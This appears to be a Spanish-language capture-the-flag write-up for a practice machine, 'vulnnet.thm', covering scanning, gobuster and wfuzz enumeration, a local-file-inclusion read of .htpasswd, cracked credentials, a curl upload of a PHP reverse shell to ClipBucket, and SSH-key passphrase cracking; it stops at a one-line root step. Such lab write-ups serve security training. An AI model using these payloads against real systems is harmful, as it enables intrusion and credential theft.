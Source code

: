 
# SCAN+
```
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
# WEB ENUM

## DIRECTORIES

Utilizando gobuster para buscar directorios encontramos los directorios comunes:
```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vulnnet.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/12 11:54:42 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/css/]
/js                   (Status: 301) [Size: 307] [--> http://vulnnet.thm/js/] 
/img                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/img/]
/fonts                (Status: 301) [Size: 310] [--> http://vulnnet.thm/fonts/]
                                                                               
===============================================================
2022/08/12 11:56:03 Finished
===============================================================

```
## SUBDOMAINS

```
gobuster vhost -u vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://vulnnet.thm
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/12 11:50:33 Starting gobuster in VHOST enumeration mode
===============================================================
Found: gc._msdcs.vulnnet.thm (Status: 400) [Size: 424]
Found: broadcast.vulnnet.thm (Status: 401) [Size: 468]
Found: _domainkey.vulnnet.thm (Status: 400) [Size: 424]
                                                       
===============================================================
2022/08/12 11:50:59 Finished
===============================================================

```
Buscando subdominios (virtual hosts) tambien mediante gobuster encontramos el subdominio 

## PARAMETROS URL

Podemos utilizar wfuzz para buscar parametros para un posible ataque LFI
```
wfuzz -u vulnnet.thm/index.php?FUZZ=/etc/passwd  -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -c --hw 462
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://vulnnet.thm/index.php?FUZZ=/etc/passwd
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000003464:   200        174 L    514 W      7660 Ch     "referer"                                                                                   

Total time: 25.48573
Processed Requests: 4712
Filtered Requests: 4711
Requests/sec.: 184.8877
```
eliminando los paquetes de tamaño 462 W eliminamos los falsos positivos. Luego hemos encontrado una puerta de entrada para un posible
ataque del tipo LFI
> vulnnet.thm/index.php?referer=

# LFI EXPLOIT
Explotando la vulnerabilidad anterior podemos ver en 
> vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd, el siguiente hash:
> developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
explicacion: Apache se puede confirgurar para que un sitio, un subdominio o un directorio tengan acceso restringido solo a algunos usuarios. Para esto hay que configurarlos. La configuración se realiza en varios pasos:
1. Se crea un archivo que por convención se llama .htpasswd (aunque en realidad se puede llamar de cualquier manera) donde se guardan las credenciales en forma:
- username: password
El username va en texto plano y el password en una variante de MD5 llamada crypt propia de apache. Cada credencial esta en una linea. Este fichero se
puede crear "a mano" con un editor de texto, pero es mejor hacerlo con una aplicacion especifica (htpasswd) y es mejor guardarlo en un lugar que no sea accesible desde la web. 
2. Una vez que se ha creado el fichero .htpasswd, debe configurarse el sitio correspondiente que se encuentra en /etc/apache2/sites-available/fichero de la siguiente manera:
```
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html/broadcast
  ServerName broadcast.vulnnet.thm
  <Directory "/var/www/html/broadcast">
        AuthType Basic  # Typo de autenticacion. En este caso Basic
        AuthName "broadcast area"
        AuthUserFile /etc/apache2/.htpasswd  # path al fichero donde estan las acreditaciones
        Requiere valid-user
  </Directory>
</Virtualhost>
```

##JtR
> developers:9972761drmfsls

# CVE
Entramos en una pagina donde hay una aplicacion llamada **ClipBucket** que es una aplicacion que nos permite subir fotos y videos tipo youtube
Vemos que para la version 4.0 hay una vulnerabilidad que nos permite RCE, file upload e incluso sqlinjection:
![image](https://user-images.githubusercontent.com/70599089/184412628-ba9e86d3-3021-401a-8dcb-38c032fa0861.png)

Optamos por un file upload utilizando un payload tipo pentestmonkey en curl
> curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls

Con esto conseguimos un reverse-shell para el usuario www-data

## ESCALADA DE PRIVILEGIOS
Utilizando linpeas.sh vemos que existen dos posibles vectores:
1. Nos permite leer un fichero /var/backups/ssh-backup.tar.gz
2. cron job para root

### /var/backups/ssh-backup.tar.gz
Podemos descomprimier este fichero en un directorio que nos permita tambien escribir (como /tmp) ya que necesitamos tambien permiso de escritura
(descomprimir es leer y escribir). Descomprimiendo el fichero, obtenemos un fichero llamado **id_rsa** que es una clave privada. 
Probamos a registrarnos en ssh como el usuario server-management y nos pide un passphrase. Intentamos desencriptar y cracker la clave privada con
ssh2john para obtener un hash a partir de la clave privada y luego intentamos crackear el hash con JtR y obtenemos el siguiente:
> oneTWO3gOyac

que pudiera ser el passphrase que estamos buscando y efectivamente lo es. Asi conseguimos entrar como el usuario **server-management** y conseguimos
el user.txt de forma inmediata

# ROOT
Utilizamos la tecnica de cron job con wildcard

